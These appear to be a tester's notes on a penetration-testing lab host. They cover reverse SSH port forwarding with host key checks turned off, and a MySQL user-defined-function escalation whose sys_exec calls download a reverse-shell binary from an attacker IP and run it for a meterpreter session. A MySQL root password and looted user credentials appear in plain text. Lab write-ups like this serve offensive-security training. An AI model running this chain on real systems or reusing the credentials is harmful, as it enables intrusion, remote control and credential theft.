 
Once in on `10.11.1.250`  with `www-data` user do:

```bash
cd /tmp
mkdir keys
cd keys
ssh-keygen # make rsa keys to use ssh with

cat /tmp/keys/id_rsa.pub
```


On __kali__ :
```bash
sudo systemctl start ssh.service
vi ~/.ssh/authorized_keys

# add the created key here with a caveat
```

```
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxO27JE5uXiHqoUUb4j9o/IPHxsPg+fflPKW4N6pK0ZXSmMfLhjaHyhUr4auF+hSnF2g1hN4N2Z4DjkfZ9f95O7Ox3m0oaUgEwHtZcwTNNLJiHs2fSs7ObLR+gZ23kaJ+TYM8ZIo/ENC68Py+NhtW1c2So95ARwCa/Hkb7kZ1xNo6f6rvCqXAyk/WZcBXxYkGqOLut3c5B+++6h3spOPlDkoPs8T5/wJNcn8i12Lex/d02iOWCLGEav2V1R9xk87xVdI6h5BPySl35+ZXOrHzazbddS7MwGFz16coo+wbHbTR6P5fF9Z1Zm9O/US2LoqHxs7OxNq61BLtr4I/MDnin www-data@ajla
```

Finally: (forwarding the ssh and mysql services)

```bash
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keyz/id_rsa kali@192.168.119.209
```


## MySQL Service

- How to compile mysql function
https://discordapp.com/channels/780824470113615893/780824472021106702/884969972588249098 

```bash
xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
xclip -selection clipboard < lib_mysqludf_sys.so.hex # It just copy to the clipboard è_é

mysql --host=127.0.0.1 --port=13306 --user=root -p # BmDu9xUHKe3fZi3Z7RdMBeb
set @shell = 0x; # ctrl+caps+v before the semicolon, press enter (eg: 0x1ef2f2;)
select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
create function sys_exec returns int soname 'udf_sys_exec.so';
select sys_exec("ls");
```

- Exploitation
```mysql
select sys_exec("wget http://192.168.119.190/rshell.elf");
select sys_exec("chmod +x rshell.elf");
# start exploit/multi/handler in msfconsole
# payload: linux/x86/meterpreter/reverse_tcp 
select sys_exec("./rshell.elf");
```


# Loot

Flag is in `/var/lib/mysql/local.txt`

```php
$username = "sandbox\alex"
$pwdTxt = "Ndawc*nRoqkC+haZ"
```


## Pivoting


#TODO stable pivot